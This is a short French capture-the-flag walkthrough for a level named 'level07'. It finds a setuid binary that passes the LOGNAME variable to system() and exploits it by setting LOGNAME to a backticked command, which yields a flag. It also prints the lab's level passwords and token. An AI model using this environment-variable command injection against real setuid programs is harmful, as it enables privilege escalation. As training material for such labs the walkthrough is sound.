 # Level07

> login:password -> *`level07:wiok45aaoguiboiki2tuin6ub`*
```
:~$ su level07
Password:wiok45aaoguiboiki2tuin6ub
```
---

```
:~$ pwd
/home/user/level07
```

```
:~$ ls -la
...
-rwsr-sr-x 1 flag07  level07 8805 Mar  5  2016 level07
...
```

Le Home contient un binaire :

```
:~$ ./level07
level07

```

On remarque que le binaire semble afficher son propre nom, mais en utilisant la commande `strings level07`

```
...
getenv
system
LOGNAME
/bin/echo %s
...
```

Si on fait plus attention aux variables d'environnement, on remarque que la variable LOGNAME pourrait nous être utile. Dans un premier temps, essayons de la modifier

```
:~$ export LOGNAME=test
:~$ ./level07
test
```

On constate alors que le binaire affiche la variable LOGNAME. On peux alors essayer de lui faire exécuter la commande `getflag`


```
:~$ export LOGNAME=\`/bin/getflag\`

:~$ ./level07
Check flag.Here is your token : fiumuikeil55xe9cu4dood66h
```

Le flag nous permet de se connecter au level08
`level08:fiumuikeil55xe9cu4dood66h`